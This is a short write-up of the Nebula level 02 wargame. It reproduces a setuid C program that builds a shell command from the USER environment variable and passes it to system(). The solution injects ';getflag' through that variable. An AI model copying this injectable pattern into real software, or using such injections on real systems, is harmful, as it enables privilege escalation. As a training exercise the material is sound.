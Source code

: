 .. _nebula02:

.. role:: bash(code)
	  :language: bash

.. role:: c(code)
	  :language: c
		     
Nebula level 02
===============

Basic Information
-----------------

**Home Page** https://exploit-exercises.com/nebula/level02/

**Source Code**

.. code-block:: c
		include <stdlib.h>
		include <unistd.h>
		include <string.h>
		include <sys/types.h>
		include <stdio.h>

		int main(int argc, char **argv, char **envp)
		{
		    char *buffer;

		    gid_t gid;
		    uid_t uid;

		    gid = getegid();
		    uid = geteuid();

		    setresgid(gid, gid, gid);
		    setresuid(uid, uid, uid);

		    buffer = NULL;

		    asprintf(&buffer, "/bin/echo %s is cool", getenv("USER"));
		    printf("about to call system(\"%s\")\n", buffer);

		    system(buffer);
		}

Solution
--------

Export a variable call :bash:`USER` like this:

:bash:`$export USER=";getflag"`

and then run

:bash:`/home/flag02/flag02`

